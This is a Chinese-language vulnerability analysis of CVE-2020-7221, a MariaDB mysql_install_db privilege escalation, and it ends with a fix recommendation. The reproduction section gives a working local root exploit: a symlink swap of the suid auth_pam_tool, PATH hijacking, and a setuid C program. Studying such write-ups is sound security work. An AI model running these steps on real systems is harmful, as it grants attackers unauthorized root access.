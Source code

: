 # （CVE-2020-7221）Mariadb 提权漏洞

> 原文：[http://book.iwonder.run/0day/Mariadb/CVE-2020-7221.html](http://book.iwonder.run/0day/Mariadb/CVE-2020-7221.html)

## 一、漏洞简介

MariaDB 10.4.7 到 10.4.11 中的 mysql_install_db 允许将特权从 mysql 用户帐户升级到 root 用户，因为 chown 和 chmod 的执行不安全，如对 auth_pam_tool_dir / auth_pam_tool 的 chmod 04755 的 symlink 攻击所证明的那样。注意：这不会影响 Oracle MySQL 产品，该产品以不同的方式实现 mysql_install_db。

## 二、漏洞影响

Mariadb 10.4.7 到 10.4.11

## 三、复现过程

#### docker 环境搭建：

> 1.  docker pull mariadb:10.4.8
> 2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

```
find / -name "mysql_install_db" 
```

![image](img/4988c1638bbf59351471f47feadfbe5a.png)

在 bash 脚本上下文中，如果$user 被定义则能进入「配置不当」漏洞点。

```
chown $user "$pamtooldir/auth_pam_tool_dir"

chmod 0700 "$pamtooldir/auth_pam_tool_dir" 
```

这里配置了 auth_pam_tool_dir 目录的归属权和所有权，权限归属于$user。 （这里是可控点之一）

```
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 
```

这里配置了 auth_pam_tool 文件为 0（root）所有权，4755 文件权限（4 为 suid 权限）。想要进入这个漏洞点需要$srcdir 变量值长度为 0 才能触发。

关于 suid 属性：

> SUID 属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有 SUID 权限的话，运行该程序时会以最高权限运行。

##### 回溯 $srcdir 与 $user

1.  $user

![image](img/132bc2b4c13db885992c501d8bacd214.png)

在脚本传递 args 参数时可控制$user 变量。

1.  $srcdir

![image](img/9676fb24a30418dc063f6517503b42a8.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要$srcdir 为空，$user 需要设置值。

结合上文描述使用此命令才能触发漏洞点：

```
./mysql_install_db --user=mysql 
```

#### 漏洞复现

寻找 suid 属性的程序

```
find /* -perm -u=s -type f 2>/dev/null 
```

搜索到的 suid 属性程序「auth_pam_tool」替换成我们的恶意 suid 程序。

```
1\. rm auth_pam_tool
2\. ln -s /root/pwn auth_pam_tool
3\. export PATH=.:$PATH
4\. ln -s /bin/bash ps 
```

编写一个具有 suid 权限的恶意程序：

```
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
} 
```

![image](img/4c8dea82c27f76fa54b5af907ddb7ec1.png)

切换回 root，在 root 权限下运行 mysql_install_db 脚本（触发修改 chmod 命令）

![image](img/4077b7a09c916380a45b599a470bda51.png)

再回到 mysql 用户权限下执行 auth_pam_tool

![image](img/8792aa3608bbf809ddcb59f4c961706a.png)

提权成功。

可以看到这个漏洞是由于 suid 与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置 auth_pam_tool_dir 目录权限为 root 所有：

```
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir 
```

## 参考链接

> [https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um)

